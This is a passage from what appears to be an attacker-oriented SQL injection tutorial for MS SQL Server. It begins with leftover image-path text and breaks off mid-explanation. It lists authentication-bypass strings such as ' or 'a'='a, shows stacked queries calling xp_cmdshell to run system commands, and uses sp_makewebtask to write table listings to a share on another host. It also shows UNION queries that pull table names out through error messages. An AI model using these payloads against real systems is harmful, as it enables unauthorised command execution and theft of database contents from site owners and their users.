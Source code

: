 ‘ or ‘a’=’a

The SQL query will now become:

SELECT \* FROM product WHERE PCategory=’food’ or ‘a’=’a’

It should return the same result.

Depending on the actual SQL query, you may have to try some of these possibilities:

‘ or 1=1–  
‘ or 1=1–  
or 1=1–  
‘ or ‘a’=’a  
‘ or ‘a’=’a  
‘) or (‘a’=’a

**4.0 How do I get remote execution with SQL injection?**  
Being able to inject SQL command usually mean, we can execute any SQL query at will. Default installation of MS SQL Server is running as SYSTEM, which is equivalent to Administrator access in Windows. We can use stored procedures like master..xp\_cmdshell to perform remote execution:

‘; exec master..xp\_cmdshell ‘ping 10.10.1.2’–

Try using double quote (‘) if single quote (‘) is not working.

The semi colon will end the current SQL query and thus allow you to start a new SQL command. To verify that the command executed successfully, you can listen to ICMP packet from 10.10.1.2, check if there is any packet from the server:

#tcpdump icmp

If you do not get any ping request from the server, and get error message indicating permission error, it is possible that the administrator has limited Web User access to these stored procedures.

**5.0 How to get output of my SQL query?**  
It is possible to use sp\_makewebtask to write your query into an HTML:

‘; EXEC master..sp\_makewebtask ‘\\10.10.1.3shareoutput.html’, ‘SELECT \* FROM INFORMATION\_SCHEMA.TABLES’

But the target IP must folder ‘share’ sharing for Everyone.

**6.0 How to get data from the database using ODBC error message**  
We can use information from error message produced by the MS SQL Server to get almost any data we want. Take the following page for example:

http://duck/index.asp?id=10

We will try to UNION the integer ’10’ with another string from the database:

http://duck/index.asp?id=10 UNION SELECT TOP 1 TABLE\_NAME FROM INFORMATION\_SCHEMA.TABLES–

The system table INFORMATION\_SCHEMA.TABLES contains information of all tables in the server. The TABLE\_NAME field obviously contains the name of each table in the database. It was chosen because we know it always exists. Our query:

SELECT TOP 1 TABLE\_NAME FROM INFORMATION\_SCHEMA.TABLES-

This should return the first table name in the database. When we UNION this string value to an integer 10, MS SQL Server will try to convert a string (nvarchar) to an integer. This will produce an error, since we cannot convert nvarchar to int. The server will display the following error:
